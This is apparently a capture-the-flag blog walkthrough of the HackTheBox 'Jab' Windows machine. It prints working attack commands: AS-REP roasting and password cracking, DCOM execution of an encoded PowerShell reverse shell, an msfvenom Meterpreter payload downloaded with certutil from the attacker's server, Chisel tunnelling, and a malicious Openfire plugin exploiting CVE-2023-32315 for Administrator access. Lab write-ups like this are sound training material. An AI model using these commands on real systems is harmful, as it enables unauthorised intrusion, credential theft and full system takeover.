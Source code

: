 ```yaml
---
title: "CTF: Jab (Windows, Medium)"
excerpt: "A detailed walkthrough of \"Jab\" machine on HackTheBox."
tagline: "Private chats are not so private."
header:
  teaser: /docs/assets/images/teasers/ctf/jab.png
  og_image: /docs/assets/images/teasers/ctf/jab.png
  overlay_image: /docs/assets/images/teasers/ctf/jab2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Medium
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Jab" machine on HackTheBox that is based on Windows operating system and categorized as "Medium" by difficulty. Infiltrate a private XMPP chat room to discover a path towards exploiting Openfire - an instant messaging and groupchat server.

## Reconnaissance

Run **nmap**:

```bash
nmap -sV -T4 <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/nmapscan.png" alt="">
  <figcaption>Ports 80 HTTP and 25565 Minecraft are open.</figcaption>
</figure>

Nmap scan reveals XMPP service running on port 5269. XMPP is an open communication protocol designed for instant messaging, presence information, and contact list maintenance. Based on XML, it enables the near-real-time exchange of structured data between two or more network entities. You can learn more about it on [https://xmpp.org](https://xmpp.org).

There are several popular XMPP clients available, in this scenario we will use [Pidgin](https://www.pidgin.im) XMPP client to connect to the messaging server.

```bash
# Install Pidgin with the following command
sudo apt install pidgin
```
Run Pidgin and, when prompted, add a new account specifying target domain name:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate.png" alt="">
  <figcaption></figcaption>
</figure>

On the advanced settings tab, set Connection security to *"Use encryption if available"*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate2.png" alt="">
  <figcaption></figcaption>
</figure>

Click "Add". You should connect to the server successfully. Go to Tools - Plugins, enable *XMPP Console* and *Service Discovery*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Select XMPP Service Discovery from Tools dropdown menu. It will show the following available services on the webserver:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/xmppservices.png" alt="">
  <figcaption></figcaption>
</figure>

From Tools menu, open XMPP Console. Then go to Accounts - your user - Search for Users. Advanced User Search will open, search users by wildcard:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearch.png" alt="">
  <figcaption></figcaption>
</figure>

You should get a list of all users both in XMPP Console and Advanced User Search results:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearchresults.png" alt="">
  <figcaption></figcaption>
</figure>

Copy the output from XML Console to a text file. Then modify the XML Output to only contain unique strings with usernames and save them to another file for your comfort. The following command should do the trick:

```bash
cat users.txt | grep ".htb" | uniq | sed 's/<value>//g;s/<\/value>//g' | tr -d ' ' > filename
```

Modify the file manually if there will be any leftover lines that do not represent usernames. Your final list should look like this:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userlist.png" alt="">
  <figcaption></figcaption>
</figure>

The discovered usernames appear to be domain users. It is possible use them in [ASREP-Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) attack using **GETNPUsers.py** from **Impacket** tools to possibly get some user's account hash.

```bash
# Run GetNPUsers.py and convert hashes into a format suitable for JohnTheReaper, place output in hashes.txt
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py jab.htb/ -usersfile asrepusers.txt -format john -outputfile hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/getnpusersrun.png" alt="">
  <figcaption>Running GetNPUsers.py</figcaption>
</figure>

The process will take some time as our user list is quite long, but eventually the tool will extract 3 password hashes for users that did not have Kerberos pre-authentication enabled.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/asrepresults.png" alt="">
  <figcaption></figcaption>
</figure>

Now let's attempt to crack them with **JohnTheReaper**:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/hashcrack.png" alt="">
  <figcaption>Got a password for jmontgomery user!</figcaption>
</figure>

We have discovered our first set of credentials. Use them to login to XMPP server as **jmontgomery**. Search for services again. As **jmontgomery**, you will see a **new chat room** that was not visible previously:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroom.png" alt="">
  <figcaption></figcaption>
</figure>

Join **"pentest2003"** chat:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroomjoin.png" alt="">
  <figcaption></figcaption>
</figure>

Read the chat. In the conversation, you can see a leaked hash/password for **svc_openfire** user / service:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/svcopenfirehash.png" alt="">
  <figcaption></figcaption>
</figure>


## Exploitation / Foothold


The target host has RPC service running on port 135. Attempting to use **DCOM RCE** technique to gain foothold on the system (**dcomexec.py from Impacket tools**):


```bash
# Start a Netcat listener on desired port:
nc -lnvp <PORT>
# Generate a base64-encoded reverse shell payload for Windows (for example, on revshells.com)
# Run dcomexec.py with the generated payload:
sudo python dcomexec.py -object MMC20 -dc-ip <TARGET_IP> -debug jab.htb/'svc_openfire':'<PASSWORD>'@<TARGET_IP> 'cmd.exe /c powershell -e <BASE64-ENCODED REVERSE SHELL>' -silentcommand
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/dcomexecrun.png" alt="">
  <figcaption></figcaption>
</figure>

If executed successfully, a callback should be received on Netcat listener:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/callback.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

Claim user flag in *c:\users\svc_openfire\desktop* folder:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userflag.png" alt="">
  <figcaption></figcaption>
</figure>


## Privilege escalation

To improve our capabilities, let's obtain a Meterpreter shell.

```bash
# Generate Meterpreter executable with msfvenom:
msfvenom  -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f exe > <filename>
# Start Metasploit and Meterpreter listener:
msfconsole
set payload windows/x64/meterpreter/reverse_tcp
set lhost <YOUR_IP>
set lport <PORT>
run
# Start Python HTTP server:
python3 -m http.server <PORT>
# On target host, download the generated file from your Python HTTP server:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/<filename>" <filename>
# Execute it
.\<filename>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/backdoorexe.png" alt="">
  <figcaption>Transferring and calling Meterpreter executable.</figcaption>
</figure>


You should receive a callback in Metasploit. Let's enumerate applications on the target host with *post/windows/gather/enum_applications* module:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/enum_applications.png" alt="">
  <figcaption></figcaption>
</figure>

It's possible to deduce that the messaging server is based on **Openfire** (however, we could deduce this from the username as well). Enumeration of active connections with **netstat** shows that Openfire is listening internally on port 9090:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/netstat.png" alt="">
  <figcaption></figcaption>
</figure>

From here it is necessary to perform port forwarding in order to reach Openfire on internal port. Unfortunately, Meterpreter's port forwarding module did not work during my walkthrough, so I had to resort to [Chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.3). Download a Windows x64 executable for the target machine and a Linux x64 one for yours. Transfer the Windows Chisel executable to the target host with the HTTP method shown previously. Then run the following:

```bash
# Attacker
./chisel_1.7.4_linux_amd64 server --reverse --port 9000
# Target
chisel_1.7.4_windows_amd64 client <YOUR_IP>:9000 9090:127.0.0.1:9090
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/chisel.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

If a tunnel has been established successfully, you can navigate to *127.0.0.1:9090* to reach Openfire Administration Console. Login with **svc_openfire** credentials:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/openfireconsole.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

### CVE-2023-32315

Vulnerability research for Openfire v.4.7.5. leads to **CVE-2023-32315** - Openfire Path Traversal which can be further exploited to gain unauthorized access to Openfire console and Remote Code Execution. Since we already have a set of credentials, we do not need to bypass authentication; we can proceed to the RCE part. For those interested, here's a could [article](https://vulncheck.com/blog/openfire-cve-2023-32315) that explains CVE-2023-32315 exploitation in more detail.

Download the following [exploit](https://github.com/miko550/CVE-2023-32315) from GitHub.


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/exploit.png" alt="">
  <figcaption></figcaption>
</figure>

Highlighted is a malicious "Management tool" plugin that will allow us to obtain RCE on the system and escalate privileges to Administrator. Upload the plugin in "Plugins" section.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pluginupload.png" alt="">
  <figcaption></figcaption>
</figure>


Navigate to Server - Server Settings - Management Tool. In the admin login panel, enter **123**. Select **system command** from dropdown menu. Background your current Meterpreter session with CTRL + Z and run the listener again. In the plugin's "Execute command" field, specify the path to the Meterpreter executable we have uploaded previously:


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/execcommand.png" alt="">
  <figcaption></figcaption>
</figure>

You will receive a Meterpreter shell as Administrator user.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/adminshell.png" alt="">
  <figcaption></figcaption>
</figure>


### Root flag

Claim root flag in *c:\users\administrator\desktop\root.txt*




**Thank you for your attention and happy hacking!**
{: .notice--primary}
